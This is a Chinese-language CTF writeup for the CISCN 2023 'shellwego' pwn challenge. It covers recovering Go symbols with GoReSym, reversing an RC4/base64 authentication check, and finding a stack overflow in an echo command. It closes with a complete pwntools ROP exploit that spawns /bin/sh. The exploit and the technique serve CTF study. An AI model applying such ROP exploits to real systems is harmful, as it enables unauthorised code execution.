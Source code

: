 # ciscn2023 shellwego writeup
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



这题是go语言程序 感觉逆向的占比大于pwn...
## 0x1 checksec 查看安全保护

![img](checksec.png)  
没开PIE， 而且可以发现程序是静态链接的

## 0x2 ida 分析
![img](0x2.png)

无符号表，难以分析，尝试利用

## 0x3 恢复符号表
### 0x3-1 查看程序go版本
两种方式： 
1. Shift+F12打开字符串窗口，搜索`go` 可以看到版本信息
2. 在命令行执行 `strings shellwego | grep "go"`

可以看到版本为go1.20.4
![img](0x3-1.png)

### 0x3-2 尝试利用IDA signature库进行比对恢复
> IDA 可以根据选定signature库中的函数签名特征与当前程序各函数进行匹配  从而恢复函数名
1. Shift+F5打开Signatures窗口
2. 右键点击 `Apply new signature...`
3. 点击 `Search` 搜索 `go`
4. 发现只有一个 `go_std` 仅可用于 `go1.10-1.16`， 不可行
![img](0x3-2.png)

### 0x3-3 搜索 `ida go1.20 signature`
发现工具 [GoReSym](https://www.google.com.hk/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjk55Gv_qD_AhWgcGwGHSR4BicQFnoECBQQAQ&url=https%3A%2F%2Fgithub.com%2Fmandiant%2FGoReSym&usg=AOvVaw1kELKyeJ37LXczOk3Yd8pk) （也可以试试其他符号恢复方法）

使用：
1. 下载程序 [Release](https://github.com/mandiant/GoReSym/releases/)
2. 执行并生成结果json文件  `GoReSym.exe -t -d -p /path/to/shellwego > output.json`
3. 下载IDA脚本文件 [goresym_rename.py](https://github.com/mandiant/GoReSym/blob/master/IDAPython/goresym_rename.py)
4. IDA 点击 File -> Script File 选择 `goresym_rename.py` 再选择刚才输出的 `output.json` IDA就能自动恢复函数名了

![img](0x3-3.png)

前后对比可以看到恢复效果非常理想

![img](0x3-32.png)

## 0x4 程序分析
### 0x4-1 进入main_main函数，可以看到程序先输出 `ciscnshell$`，再获取输入，然后调用函数 `main_unk_func0b05`
![img](0x4-1.png)

### 0x4-2 进入`main_unk_func0b05`函数
- 发现很多cmp和类似字符串16进制的dword
点击16进制数再按R键，显示字符串  但由于数据是以dword解释的，所以字符串颠倒  
- 尝试执行程序发现输出`Cert Is A Must` 所以先来看cert命令  按照程序流程可见应该还要输入 `nAcDsMic`+`N` 也就是 `nAcDsMicN`  
- 但是如果只输入 `cert nAcDsMicN` 会出现提示 `Missing parameter`， 明显是要三个参数  
- 再看函数流图发现之后去到函数`main_unk_func0b01`
![img](0x4-2.png)

### 0x4-3 进入`main_unk_func0b01`函数
同样方法转换字符串，可以发现大致流程：
1. key="F1nallB1B1rd3K3y"
2. rc4 加密
3. base64 加密
4. 与字符串"JLIX8pbSvYZu/WaG"比较，若相同则认证成功
![img](0x4-3.png)

### 0x4-4 cert me in
很明了了，先base64解密成byte数组， 再用已知key通过rc4解密  最后得到 `S33UAga1n@#!`  
执行程序输入 `cert nAcDsMicN S33UAga1n@#!`， 成功通过验证

### 0x4-5 回到`main_unk_func0b05`函数
尝试执行函数中提到的不同命令，可以`cat flag`但是是假的flag
发现仅echo命令存在可能漏洞（main_unk_func0b04中）

### 0x4-6 进入`main_unk_func0b04`函数
![img](0x4-4.png)
结合动态调试发现：
1. echo后面的单个连续单词长度不能超过0x200
2. 单词会去掉空格拼接起来复制到栈上， 存在栈溢出漏洞
3. 遇到`+`不复制

## 0x5 exploit
直接栈溢出到ret_addr会出现Segmentation Fault，调试分析问题出现在指令`movzx edx, byte ptr [rbx+rax]`  
![img](0x4-5.png)

原因rbx从栈上取了一个地址值，而我们改写了栈使其不再是有效地址值，所以解析的时候会报段错误
绕开方式： 刚好遇到 `+` 不会复制，也就保留原来的值

```python
from pwn import *
context.log_level='debug'

filename = './shellwego'
proc = process(filename)
belf = ELF(filename)

gscript = '''
    b * 0x0000000004C1882
    c
'''
# gdb.attach(proc, gdbscript=gscript)

# gadget 查看pop_ret对，用于构造pop链
poprdi_ret = 0x444fec
poprsi_ret = 0x41e818
poprdx_ret = 0x49e11d
poprax_ret = 0x40d9e6
syscall = 0x40328c

proc.sendlineafter(b'ciscnshell$ ', b'cert nAcDsMicN S33UAga1n@#!')

#每个单词长度不超过0x200
#payload具体溢出长度可通过动态调试观察得到
payload = b'echo '+b'h'*0x100+b' '+b'h'*0x103

# 避开影响地址
payload += b'+' * 8

# 调用syscall 0 即read 到0x59FE70 上
# 具体syscall调用规则查看：https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md
payload += p64(0xdeadbeefdeadbeef) * 3
payload += p64(poprdi_ret) + p64(0)
payload += p64(poprax_ret) + p64(0)
payload += p64(poprsi_ret) + p64(0x59FE70)
payload += p64(poprdx_ret) + p64(20)
payload += p64(syscall)

#syscall 59 即execve
payload += p64(poprax_ret) + p64(59)
payload += p64(poprdi_ret) + p64(0x59FE70)
payload += p64(poprsi_ret) + p64(0)
payload += p64(poprdx_ret) + p64(0)
payload += p64(syscall)

proc.sendlineafter(b'# ', payload)
proc.send(b"/bin/sh\x00")
proc.interactive()
pause()

```